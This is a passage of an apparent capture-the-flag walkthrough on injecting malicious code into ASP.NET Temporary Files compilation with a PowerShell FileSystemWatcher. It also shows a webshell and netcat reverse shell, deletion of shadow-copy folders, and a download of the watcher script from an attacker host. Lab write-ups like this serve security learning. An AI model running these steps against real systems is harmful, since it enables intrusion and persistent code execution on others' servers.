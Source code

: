 ```

```

It uses a `FileSystemWatcher` [object](https://powershell.one/tricks/filesystem/filesystemwatcher) to register a file change event handler looking for C# source files in the Shadow File Copy directory. It finds `Execute() {` and replaces it with `Execute() {` and then the malicious code. It also does a similar find and replace to bring in an additional import. It does uses a global variable (`$global:trig`) to make sure to only change the first one it finds. Not adding this will cause the changes to take place again and again, and eventually break the compilation.

### Exploit

I’ll start with both an SSH shell and a webshell, and use the webshell and `nc64.exe` to get a shell that way (which I’ll just refer to as the webshell shell). From the webshell shell, I’ll delete all the shadow copy folders:

```

PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> del *
del *

```

This can hang, and sometimes it completed without deleting everything (I just ran it again until it finished).

Next I’ll upload the `watcher.ps1` file to that directory:

```

PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> iwr http://10.10.14.15/watcher.ps1 -outfile watcher.ps1

PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> ls

    Directory: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2021  12:43 PM           1421 watcher.ps1

```

Now I’ll run it:

```

PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> .\watcher.ps1
.\watcher.ps1

Id     Name            PSJobTypeName   State         HasMoreData     Location             Command                  
--     ----            -------------   -----         -----------     --------             -------                  
1      FileChanged                     NotStarted    False                                 ...   

```
